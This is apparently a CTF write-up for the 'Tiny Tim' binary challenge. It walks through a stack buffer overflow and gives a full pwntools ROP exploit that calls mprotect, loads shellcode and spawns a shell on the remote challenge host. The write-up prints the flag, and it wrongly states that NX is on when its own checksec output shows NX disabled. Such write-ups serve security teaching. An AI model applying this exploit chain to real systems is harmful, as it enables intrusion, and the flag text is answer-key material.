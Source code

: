 ## Tiny Tim (123 points)

### Description

Full red? Can't be that bad.

### Gathering information

We are given a rather small binary. Let's check it's protections with
`checksec`:

```  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)  
```

It is convenient to use `objdump` to analyze it. Here is the output of
`objdump -d -M intel tiny_tim`

```  
tiny-tim:     file format elf64-x86-64

Disassembly of section .text:

0000000000401000 <secret0>:  
 401000:       58                      pop    rax  
 401001:       c3                      ret  

0000000000401002 <secret1>:  
 401002:       5e                      pop    rsi  
 401003:       c3                      ret  

0000000000401004 <secret2>:  
 401004:       5f                      pop    rdi  
 401005:       c3                      ret  

0000000000401006 <secret3>:  
 401006:       5a                      pop    rdx  
 401007:       c3                      ret  

0000000000401008 <vuln>:  
 401008:       55                      push   rbp  
 401009:       48 89 e5                mov    rbp,rsp  
 40100c:       48 83 ec 20             sub    rsp,0x20  
 401010:       48 89 e6                mov    rsi,rsp  
 401013:       48 31 c0                xor    rax,rax  
 401016:       48 31 ff                xor    rdi,rdi  
 401019:       ba 00 02 00 00          mov    edx,0x200  
 40101e:       0f 05                   syscall  
 401020:       b8 00 00 00 00          mov    eax,0x0  
 401025:       48 83 c4 20             add    rsp,0x20  
 401029:       5d                      pop    rbp  
 40102a:       c3                      ret  

000000000040102b <_start>:  
 40102b:       55                      push   rbp  
 40102c:       48 89 e5                mov    rbp,rsp  
 40102f:       b8 00 00 00 00          mov    eax,0x0  
 401034:       e8 cf ff ff ff          call   401008 <vuln>  
 401039:       48 31 f8                xor    rax,rdi  
 40103c:       b8 3c 00 00 00          mov    eax,0x3c  
 401041:       0f 05                   syscall  
 401043:       90                      nop  
 401044:       5d                      pop    rbp  
 401045:       c3                      ret  
```

We can notice in the `vuln` function that there is a buffer overflow.  
The function allocates 0x20 bytes on the stack (`sub rsp, 0x20`) but then
executes a read syscall of 0x200 bytes.

As the NX (not executable stack) protection is on, we need to execute a
ropchain.

We can also notice that we have some helper functions called secretX. It
wouldn't be possible, to the extend of my knowledge, to exploit the binary
without those.

### Exploitation

The following script gets the job done by changing the permission of the
program memory page to `rwx`, then reading some shellcode to execute and
jumping into it.

```python  
#!/usr/bin/env python3

from pwn import *

HOST = "challenges.ctfd.io"  
PORT = 30017

exe = ELF("./tiny-tim")  
rop = ROP(exe)

context.binary = exe  
context.log_level = "debug"

def conn():  
   if args.LOCAL:  
       return process([exe.path])  
   else:  
       return remote(HOST, PORT)

def main():  
   io = conn()

   # good luck pwning :)

   # ---------------- GADGETS ---------------- #  
   pop_rax = 0x0000000000401000 # pop rax; ret;  
   pop_rdi = 0x0000000000401004 # pop rdi; ret;  
   pop_rsi = 0x0000000000401002 # pop rsi; ret;  
   pop_rdx = 0x0000000000401006 # pop rdx; ret;  
   syscall = 0x0000000000401041 # syscall; nop; pop rbp; ret;  
  
   # ---------------- EXPLOIT ---------------- #

   # execve('/bin/sh', NULL, NULL) with shellcode  
   shellcode = shellcraft.sh()  
log.info(shellcode)  
   shellcode = asm(shellcode)

   stdin = 0  
   shellcode_position = 0x400000

   # Note:  
   # We are setting the registers in the following way  
   # based on the calling convention of x86_64  
   # https://www.systutorials.com/x86-64-calling-convention-by-gcc/

   # Change memory page starting at 0x400000 to be rwx  
   # mprotect(0x400000, 0x1000, 7)  
   rop.raw(pop_rdi)  
   rop.raw(shellcode_position)  
   rop.raw(pop_rsi)  
   rop.raw(0x1000)  
   rop.raw(pop_rdx)  
   rop.raw(7) # 7 = 00000111 base 2 = rwx permissions  
   rop.raw(pop_rax)  
   rop.raw(0xa) # mprotect syscall number
(https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)  
   rop.raw(syscall) # execute syscall  
   rop.raw(0) # this gets popped after the syscall

   # Write shellcode to the mprotected page  
   # read(stdin, 0x400000, len(sc))  
   rop.raw(pop_rdi)  
   rop.raw(stdin)  
   rop.raw(pop_rsi)  
   rop.raw(shellcode_position)  
   rop.raw(pop_rdx)  
   rop.raw(len(shellcode))  
   rop.raw(pop_rax)  
   rop.raw(0) # read syscall number
(https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)  
   rop.raw(syscall) # execute syscall  
   rop.raw(0) # this gets popped after the syscall

   # Jump into shellcode  
   rop.raw(shellcode_position)

   # Send exploit  
   padding  = b'A'*40  
   payload  = padding  
   payload += rop.chain()

   io.send(payload)  
   io.send(shellcode)

   # Profit  
   io.interactive()

if __name__ == "__main__":  
   main()  
```

It was also be possible to execute a ropchain to write the string '/bin/sh' to
memory and to execute execve('/bin/sh', NULL, NULL) using the string we wrote.
This would have worked even if the mprotect syscall was somehow blocked,
provided that we had some writable memory.

### The Flag

We can then `cat flag.txt` and get the flag: `UDCTF{sy5t3m_3ngage!}`